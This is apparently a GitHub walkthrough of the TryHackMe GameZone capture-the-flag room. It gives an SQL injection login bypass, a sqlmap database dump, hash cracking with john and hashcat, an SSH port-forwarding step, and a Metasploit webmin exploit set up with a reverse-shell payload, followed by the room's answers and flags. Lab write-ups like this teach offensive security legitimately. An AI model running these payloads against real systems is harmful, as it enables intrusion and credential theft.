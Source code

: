 # GameZone Wlakthrough
### Link
- https://tryhackme.com/room/gamezone
------------------------
- What is the name of the large cartoon avatar holding a sniper on the forum?
	- **Answer** : Agent 47 (main character of the videogame HITMAN)
- Obtain access via SQLi
	- Use ' or 1=1 -- - as your username and leave the password blank.
     - picture: [GameZone_1.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_1.png)
	- **Answer** : portail.php
- Using SQLMap
	- Intercept the request from portail.php by using BurpSuite
     - picture: [GameZone_3.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_3.png),[GameZone_4.png](https://github.com/LNB283/THM/blob/main/EASY/GameZone/Pictures/GameZone_4.png)
	- Save the request in text file
	- We can then pass this into SQLMap to use our authenticated user session.
		SQLMap option:
			-r uses the intercepted request you saved earlier
			--dbms tells SQLMap what type of database management system it is
			--dump attempts to outputs the entire database
		sqlmap -r request --dbms=mysql --dump

	- In the users table, what is the hashed password?
	    - **Answer**: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
	- What was the username associated with the hashed password?
		- **Answer**: agent47
	- What was the other table name?
		- **Answer**: post
- Cracking a password with Johntheripper
	John option:
			hash.txt - contains a list of your hashes (in your case its just 1 hash)
			--wordlist - is the wordlist you're using to find the dehashed value
			--format - is the hashing algorithm used. In our case its hashed using SHA256.
	john hash.txt --wordlist=[path the wordlist] --format=Raw-SHA256


- Cracking with hashcat

	sudo hashcat -m 1400 [path to hash file] [path to wordlist] --force
	- What is the de-hashed password?
		- **Answer**: videogamer124
	- What is the user flag?
		- **Answer**:649ac17b1480ac13ef1e4fa579dac95c

- Exposing services with reverse SSH tunnels
	- How many TCP sockets are running? 
	- execute the command : ss -tulpn
	    - **Answer**: 5

	
We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run ssh -L 10000:localhost:10000 <username>@<ip>

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.

- What is the name of the exposed CMS?
	- **Answer**: webmin

- What is the CMS version?	
	- **Answer**:1.580


- Privilege Escalation with Metasploit
	- start metasploit
	- search exploit undr the metasploit db
		- search webmin
		- Select the Remote command execution -->  0  exploit/unix/webapp/webmin_show_cgi_exec
		- use [exploit number]
		- check settings : show info
			- We need to set PASSWORD / USERNAME / RHOST / RPORT	
				- set PASSWORD videogamer124
				- set USERNAME agent47
				- set RPORT 10000
				- set RHOST localhost (we target the localhost not the IP)
				- set ssl false (we are connecting to  port than 80) 	
			- show payloads
				- set payload cmd/unix/reverse
				- set lhost [local machine IP]
			- Execute the payload
				- run
			- access to the session in background
				- sessions 1
			- find the flag
				 - **Answer**:a4b945830144bdd71908d12d902adeee